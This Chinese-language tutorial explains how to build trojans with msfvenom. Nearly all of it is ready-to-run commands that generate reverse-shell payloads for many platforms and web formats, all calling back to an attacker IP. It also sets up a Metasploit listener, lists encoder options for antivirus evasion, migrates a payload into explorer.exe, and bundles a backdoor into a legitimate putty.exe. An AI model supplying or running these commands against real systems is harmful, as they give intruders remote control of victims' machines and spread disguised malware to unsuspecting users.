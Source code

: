 # Msfvenmon木马制作

**0x00 前言**

msfpayload是MSF攻击荷载生成器，用于生成shellcode和payload。

**0x01 常用参数介绍**

```
–p	--payload			添加载荷payload		
	--payload-options 	列出payload选项

–l	--list				查看所有payload encoder nops。

–f	--format			输出文件格式。		
	--help-formats 		列出所有文件格式

–e	--encoder			编码免杀。

–a	--arch				选择架构平台
	-–platform         	指定payload的目标平台
	
–o	--out				文件输出。

–s	--space				生成payload的最大长度，就是文件大小。

–b	--bad-chars			避免使用的字符 例如：不使用 ‘\0f’。

–i	--iterations		编码次数。

–c	--add-code			添加自己的shellcode。

-x	--template			指定一个自定义的可执行文件作为模板

-k	--keep				保护模板程序的动作，注入的payload作为一个新的进程运行
```



**0x02 操作流程**

1、生成木马，在靶机上运行

```shell
# 这里>写成-o也行
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.12.135 LPORT=4444 -f exe > shell.exe
```

2、在msfconsole进行监听

```shell
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp   # 与生成木马所使用的payload对应上就行
show options
set lhost 192.168.12.135
set lport 4444
run
```

3、在靶机上运行木马

> 运行后攻击者就可以获取到反弹shell



**0x02 其他生成方式**

1、进程注入

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.12.135 LPORT=4444 prependmigrateprocess=explorer.exe prependmigrate=true -f exe > shell.exe
```

2、程序捆绑

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.12.135 LPORT=4444 -a x86 --platform windows -x putty.exe -k -f exe -o myputty.exe
```

3、Linux

```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.12.135 LPORT=4444 -a x86 --platform linux -f elf > shell.elf
```

4、windows

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.12.135 LPORT=4444 -f exe > shell.exe
```

5、Mac

```shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.12.135 LPORT=4444 -f macho > shell.macho
```

6、Perl

```shell
msfvenom -p cmd/unix/reverse_perl LHOST=192.168.12.135 LPORT=4444 -f raw > shell.pl
```

7、Lua

```shell
msfvenom -p cmd/unix/reverse_lua LHOST=192.168.12.135 LPORT=4444 -f raw -o shell.lua
```

8、Ruby

```shell
msfvenom -p ruby/shell_reverse_tcp LHOST=192.168.12.135 LPORT=4444 -f raw -o shell.rb
```

9、PHP

```shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.12.135 LPORT=4444 -f raw > shell.php
```

10、aspx

```shell
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.12.135 LPORT=4444 -f aspx -o shell.aspx
```

11、asp

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.12.135 LPORT=4444 -f asp > shell.asp
```

12、jsp

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.12.135 LPORT=4444 -f raw > shell.jsp
```

13、war

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.12.135 LPORT=4444 -f war > shell.war
```

14、nodjs

```shell
msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.12.135 LPORT=4444 -f raw -o shell.js
```


